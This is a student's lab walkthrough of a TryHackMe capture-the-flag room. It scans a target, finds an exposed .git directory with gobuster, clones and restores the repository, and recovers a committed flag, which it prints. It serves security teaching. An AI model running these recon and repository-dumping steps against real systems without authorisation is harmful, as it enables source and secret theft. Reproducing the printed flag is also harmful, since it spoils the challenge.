






# TryHackMe — Room 404 Walkthrough

**Student:** Muhammad Ammar Yaasir Bin Shamsul Kamar
**Student ID:** 52215226094
**Course:** Vulnerability Analysis/ lab — Lab 5
**Date:** 22 November 2026
**Room:** [Room 404 — TryHackMe](https://tryhackme.com/room/) (Hacker Holidays 2026, Day 2)

---

## 1. Target

| Item | Value |
|------|-------|
| Platform | TryHackMe (AttackBox) |
| My machine (AttackBox) | `10.48.140.200` |
| Target machine | `10.48.189.87` |
| Open ports | `22/tcp` (SSH), `8080/tcp` (HTTP) |
| Web stack | Python **Flask** (Werkzeug 3.0.1 / Python 3.12.3) |
| Web app | "Byte Lotus" hotel guest platform (build: *staging*) |
| Flag | `THM{byt3_l0tus_n3v3r_f0rg3ts}` |

**The scenario:** the room hints that port 8080 is open and that "the rooms it never lists are the ones worth finding." That points at hidden web content, so my approach was web enumeration followed by finding what the app doesn't link publicly.

---

## 2. Methodology

I followed a standard web recon-to-exploitation flow:

1. **Reconnaissance** — port scan to confirm the attack surface.
2. **Web enumeration** — inspect the app, then brute-force hidden paths.
3. **Vulnerability discovery** — found an exposed `.git/` directory (source-code disclosure).
4. **Exploitation** — reconstructed the git repository and read the source and history.
5. **Flag retrieval** — recovered a secret left in the committed files.

The key vulnerability is **sensitive data exposure through a publicly accessible `.git` repository (CWE-527)**, which let me download the application's full source code and commit history.

---

## 3. Tools Used

- `nmap` — port and service scanning
- Firefox + `curl` — manual web inspection
- `gobuster` — directory / content discovery
- `git` — cloning and restoring the exposed repository
- `grep` / `git log` — searching the recovered source

---

## 4. Step-by-Step

### Step 1 — Port scan

```bash
export IP=10.48.189.87
nmap -sV -p- --min-rate 1000 $IP
```

Two ports open:

```
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.12.3
```

`Werkzeug` is the development server that ships with Flask, so the target is a Python web app. That matters because Flask serves *routes* defined in code, not files on disk so hidden content is found by fuzzing route names.



### Step 2 — Inspect the web app

Browsing to `http://10.48.189.87:8080` loads the "Byte Lotus" hotel site. The navigation links are decoys (`href="#"`) and the only real route linked is `/booking`. The footer reads *"build staging"* — a hint that this is an unfinished dev build.



```bash
curl -s http://$IP:8080 | grep -iE 'href|src|staging'
# <a href="/booking">Reserve a stay</a>
# guest experience platform · build staging
```

### Step 3 — Directory / content discovery

```bash
gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirb/common.txt -t 50
```

One result stood out:

```
/.git/HEAD            (Status: 200) [Size: 21]
```

The server is **exposing its `.git` directory** — the entire repository can be downloaded and the source reconstructed.

```bash
curl -s http://$IP:8080/.git/HEAD
# ref: refs/heads/main      <- confirms a live git repo
```



### Step 4 — Dump the exposed repository

The usual tool (`git-dumper`) wasn't installed, and `pip install` failed because the AttackBox has no public internet access (it sits on the VPN network with the target):

```
Failed to establish a new connection: [Errno 101] Network is unreachable
```



No problem — the *target* is fully reachable, so I dumped the repo with native `git` instead. Cloning an exposed `.git` over plain HTTP pulls the objects but leaves the working tree empty, so `git restore .` rebuilds the actual files:

```bash
cd ~
git clone http://$IP:8080/.git loot
cd loot
git restore .
ls -la
# README.md   app.js   index.html   .git/
```

This recovered the full application source.



### Step 5 — Find the flag

I searched the recovered repository for anything flag-shaped:

```bash
grep -rniE 'flag|thm\{' .
# ./README.md:6: Staging flag (remove before launch): THM{byt3_l0tus_n3v3r_f0rg3ts}
```

And confirmed it was a committed secret via the git history:

```bash
git log --all --oneline
# 0f13550 (HEAD -> main) initial Byte Lotus guest platform

git log --all -p | grep -iE 'flag|thm\{'
# +Staging flag (remove before launch): THM{byt3_l0tus_n3v3r_f0rg3ts}
```

> Note: the `.git/hooks/fsmonitor-watchman.sample` match is a built-in git sample hook with the word "flag" in a comment — a false positive, not the real flag.



---

## 5. Flag

```
THM{byt3_l0tus_n3v3r_f0rg3ts}
```

The name is a pun: **git never forgets**. The developer left a secret in a file and committed it — even if they had deleted it from the live site, the value would still live in the commit history. That is exactly why exposing `.git/` is so dangerous.

---
